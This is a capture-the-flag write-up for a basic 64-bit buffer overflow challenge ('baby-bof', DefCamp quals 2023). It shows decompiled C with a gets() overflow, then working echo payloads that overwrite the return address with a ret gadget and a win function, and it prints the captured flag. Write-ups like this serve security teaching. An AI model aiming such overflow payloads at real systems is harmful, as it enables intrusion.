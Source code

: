 ## Challenge Description

This is a basic buffer overflow.

Flag format: CTF{sha256}

### Intuition

By decompiling we see an obvious buffer overflow and a ``flag`` function that
we can jump to.

```c  
void flag(void)  
{  
 char local_98 [136];  
 FILE *local_10;  
  
 local_10 = fopen("flag.txt","r");  
 if (local_10 == (FILE *)0x0) {  
   puts("Well done!! Now use exploit remote! ");  
                   /* WARNING: Subroutine does not return */  
   exit(0);  
 }  
 fgets(local_98,0x80,local_10);  
 printf(local_98);  
 return;  
}

/* Called by the main function */  
void vuln(void)  
{  
 char local_138 [304];  
  
 gets(local_138);  
 return;  
}

```  
PIE is not enabled so we can just hardcode the addresses in an echo.

### Solution

Simply echo to the binary:  
```  
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof  
Please enter the flag:  
Segmentation fault (core dumped)  
```  
This crashes because of alignment issues. Let's fix it with a ret gadget
address (found with ROPGadget) to align it back:

```  
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x05\x40\x00\x00\x00\x00\x00\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof  
```

#### Flag

```ctf{c7fabc6bfe7e4b40b78244854f95f089414bb8354e021f89fe632202bb35ef99}```  

Original writeup (https://dothidden.xyz/defcamp_quals_2023/baby-bof/).